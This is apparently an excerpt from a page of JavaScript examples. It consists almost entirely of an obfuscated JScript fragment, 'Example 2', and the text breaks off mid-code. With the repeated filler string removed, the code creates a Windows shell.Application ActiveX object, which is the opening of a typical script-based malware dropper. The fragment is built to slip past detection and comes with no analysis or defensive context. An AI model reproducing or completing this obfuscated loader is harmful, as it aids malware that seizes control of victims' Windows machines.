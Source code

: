 


### Example 2: javascript

```javascript
{% raw %}
var PWbHcohUjVMyBnmwCvf = 'GJpWSFwRVsYtUhiOuBNMecoDln'+
'XPEC'+
'vGJpWSFwRVsYtUh'+
'iOuBNMecoDlnXPECar PGJpWSFwRVsYtUhiO'+
'uBNMecoDlnXPECIHG'+
'J'+
'pWS'+
'FwRVsYtUhi'+
'OuBNMecoDlnXPECGGJpWSFwRVsYtUhiOuBNMecoDlnXPECCGJpWSFwR'+
'VsYtUhiOu'+
'BNMecoDl'+
'nXPECwGJpWSFwRV'+
'sYtUhiOuBNMecoDlnXPECSGJpWSFwRVsYtUhiOuBNMecoDlnXPECLGJpWSFwRVsYtUhiOuBNM'+
'ecoDlnXP'+
'EClGJpWSFw'+
'RV'+
'sYtU'+
'hiOuBNMecoDlnXPECWhGJpWSFw'+
'RVsYtUhiOuBNMecoDlnXPECfGJpWS'+
'FwR'+
'VsYtUhiOuBNMecoDlnXPECJpRGJpWSFwRVsYtUhiOuBNMecoDlnXPECeGJpWSFwRVsYtUhiOuBNMecoDlnXPECqsGJp'+
'WSFwRVsYtUhiOuBNMecoD'+
'lnX'+
'PEC GJpWSF'+
'wRVsYtUhiOuBNMecoDlnXPEC= GJpWSFwR'+
'VsYtUhiOuBNMecoDlnXPECnGJpWSFwRVsYtUhiOuBNM'+
'ecoDlnXPECewGJp'+
'WSF'+
'wRVsYtUhiOuBNMecoDlnXPEC G'+
'JpWSFwRVsYtUhiOuBNMecoDlnXPECAGJpWSFwRVsYtUhiOuBNMecoDlnXPECctivGJpWSFwRVsYtUhiOuB'+
'NMecoDlnXPECeGJpWSFwRVsYtUhiOuBNMecoDlnXPECXGJpWSFwRVsYtUhiOuBNMecoDlnXPECObjGJpWSFwRVsYtUhiOuBNMecoDln'+
'XPECecGJpW'+
'SFwRVsYtUhiOuBNMecoDlnXPECtGJpWSFwRVsYtUhiOuBNMecoDlnXPEC(GJpWSFwRVsYtUhiOuBNMecoDlnXPEC"GJpWSFwRVsYtUhiOuBNMec'+
'oDlnXPECsGJpWSFwRVsYtUhiOuBNMecoDlnXPEChGJpWSFwRVsYtUhiOuBNMecoDlnXPECeGJpWSFwRVsYt'+
'UhiOuBN'+
'MecoDlnXPECLGJpWSF'+
'wRVsYtUhiOuBNMecoDlnXPEClGJpWSFwRVsYtUhi'+
'OuBNM'+
'ecoDlnXPEC.GJpWSFwRVsYtUhiOuBNMecoDlnXPECA'+
'GJpWSFwRVsYtUhiOuBNMecoDlnXPECpGJp'+
'WSFwRVsYtUhi'+
'OuBNMecoDlnXPECplGJpWSFwRVs'+
'YtUhiOuB'+
'NMecoD'+
'lnXPECIc'+
'GJpWSFwRVsYtUhiOuBNMecoDlnXPECatGJpWSFwRV'+
'sYtUhiOuBNMecoDlnXPEC'+
'IGJpWSFwRVsYtUhiOuBNMecoDlnX'+
'PECOGJpWSFwRVsYtUhiO'+
'uBNM'+
'ecoDlnXPECN'+
'"GJpWSFw'+
'R'+
'VsYtUhiOuBNMecoDlnXPEC); GJpWSFwRVsYtUhiOuBNMecoDl'+
'nXPECvar GJpWSFwRVsYtUhiOuBNMecoDlnXPECxGJpW'+
'SFwRVsYtUhiOuBNMecoDlnXPECaGJpWSFwRVsYtUhiOuBNMecoD'+
```